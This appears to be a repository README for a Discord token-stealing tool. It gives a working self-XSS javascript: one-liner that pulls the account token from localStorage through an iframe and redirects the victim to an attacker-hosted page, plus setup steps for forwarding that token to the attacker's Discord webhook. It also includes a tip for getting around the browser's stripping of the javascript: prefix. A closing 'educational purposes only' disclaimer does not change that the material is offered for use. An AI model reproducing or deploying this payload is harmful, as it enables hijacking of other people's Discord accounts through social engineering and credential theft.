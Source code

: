 # Discord token grabbing link or self xss 
Instructions:

1. Replace YOUR_WEBHOOK_URL with your actual Discord webhook URL in index.html.


2. Host this index.html file anywhere (e.g., GitHub Pages, Vercel, etc.).


3. When the user is redirected to https://yoursite.com?site=token, the script will automatically send the token to the webhook. replace your site .Com with that index.html site


# self xss code 
Here’s a one-liner that grabs the token from localStorage and redirects the user to a URL with the token as a query parameter:

'javascript:(() => {let i=document.createElement('iframe');document.body.append(i);let t=JSON.parse(i.contentWindow.localStorage.token);window.location.href=`https://your-site.com?site=${t}`})();

# Notes:
* IMPORTANT: After pasting it, remove the ' from the front. This bypasses the browser removing javascript:
Replace https://your-site.com with any URL with the index.html site

The token is automatically appended as a site query parameter.

# How It Works:

The JS payload grabs the token from localStorage and redirects the user to a site like:
https://yourdomain.com/index.html?site=token

The HTML page on that domain extracts token from the URL and sends it to your Discord webhook.

# warnings
This script is made for educational purposes only. I am not responsible for any misuse or malicious activities.

